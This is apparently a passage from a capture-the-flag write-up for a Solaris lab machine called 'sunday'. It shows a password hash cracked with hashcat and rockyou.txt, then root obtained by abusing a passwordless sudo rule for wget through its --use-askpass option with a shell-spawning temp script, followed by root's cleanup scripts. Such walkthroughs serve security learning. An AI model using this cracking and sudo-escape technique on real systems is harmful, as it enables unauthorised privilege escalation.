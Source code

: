 I was able to crack the password for `sammy` in a few seconds using:

```console
$ hashcat ./hash.sammy ./rockyou.txt --username
```

```console
sunny@sunday:/home/sammy$ su - sammy
Password:
Warning: at least 15 failed authentication attempts since last successful authentication.  The latest at Wed Aug 07 18:24 2024.
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
-bash-5.1$ id
uid=100(sammy) gid=10(staff)
```

This seems like a rabbit hole, judging by the name:

```console
-bash-5.1$ sudo /root/troll
Password:
testing
uid=0(root) gid=0(root)
```

But this works:

```console
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
-bash-5.1$ TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-5.1$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# id
uid=0(root) gid=0(root)
```

## Post-exploitation

Here's the `/root/troll` stuff:

```console
root@sunday:/home/sammy# cat /root/troll
#!/usr/bin/bash
/usr/bin/echo "testing"
/usr/bin/id
root@sunday:/home/sammy# ls -l /root
total 8
-rw-r--r--   1 root     root         126 Dec 19  2021 overwrite
-rw-------   1 root     root          33 Aug  7 16:10 root.txt
-rwxr-xr-x   1 root     root          53 Aug  7 18:48 troll
-rw-r--r--   1 root     root          53 Dec 19  2021 troll.original
root@sunday:/home/sammy# cat /root/overwrite
#!/usr/bin/bash
while true; do
        /usr/gnu/bin/cat /root/troll.original > /root/troll
        /usr/gnu/bin/sleep 5
done
```
